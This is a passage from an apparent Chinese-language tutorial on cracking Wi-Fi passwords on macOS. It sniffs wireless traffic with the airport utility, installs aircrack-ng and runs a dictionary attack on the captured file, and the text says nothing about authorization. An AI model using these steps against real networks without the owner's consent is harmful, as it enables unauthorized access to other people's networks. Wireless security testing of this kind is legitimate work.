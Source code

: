 ```airport <interface> <verb> <options>```
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff
~~~

抓一段儿事件之后，使用 Ctrl + C 停止抓包，完成后会生成一个 cap 包，看到如下提示：

~~~
Session saved to /tmp/airportSniff0RjCAO.cap.
~~~

### 4. 安装 [aircrack-ng](https://aircrack-ng.org/)
* 使用 [Homebrew](https://brew.sh/) 安装：

~~~shell
brew install aircrack-ng
~~~

### 5. 使用 aircrack-ng 执行破解
~~~shell
aircrack-ng -w common.txt /tmp/airportSniff0RjCAO.cap
~~~

### Windows
* [下载 Aircrack-ng](https://aircrack-ng.org/downloads.html) 提供了 Windows 的二进制包

* 使用 [WSL](https://docs.microsoft.com/en-us/windows/wsl/about)

### 更多安装方式参考：[安装 Aircrack-ng](https://aircrack-ng.org/install.html)